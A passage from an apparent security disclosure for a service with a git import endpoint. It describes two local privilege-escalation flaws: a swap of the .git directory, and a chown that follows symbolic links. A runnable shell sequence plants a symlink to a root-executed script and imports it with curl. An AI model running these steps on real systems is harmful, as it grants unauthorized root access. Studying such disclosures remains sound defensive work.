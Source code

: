 ```sh
mv /app/.git /app/old.git
cp -r new.git /app/.git
# ^^^ sneaky area
```

That last `cp -r` there copies instead of using a faster rename because `/tmp/new.git` is on a different filesystem.

Then we let the service finish and clean things up.

```sh
wait "$command_pid"
kill "$server_pid"
wait "$server_pid"
```

# Vulnerability 2: chown dereferences symbolic links

After the service clones the repository as root, the contents are owned by root, so they have to `chown` everything.
It looks like the implementation had other issues, such as not recursively going into subdirectories.

The main thing about it is that it uses [`chown`](https://manpages.ubuntu.com/manpages/xenial/en/man2/chown.2.html), which dereferences symbolic links (`lchown` being the one that changes the ownership of the symbolic link itself).

We could create a repository containing a symbolic link to a system file that root would normally execute.
When we clone the repository, the service will give us ownership of that file, and we could alter it so that we can run something of our choosing when root executes it.

## Sample exploitation

```sh
cd /tmp
mkdir s
cd s
git init
git config user.name w
git config user.email none
ln -s /opt/wetty/wetty-command.sh .
git add wetty-command.sh
git commit -m "A"
git show
git update-server-info
cd ..
curl -v -H 'Content-Type: application/json' -d '{"repoUrl": "file:///tmp/s"}' http://localhost:1083/git/import
```

We'd then edit `/opt/wetty/wetty-command.sh`, which gets executed as root when opening a terminal.

# Timeline
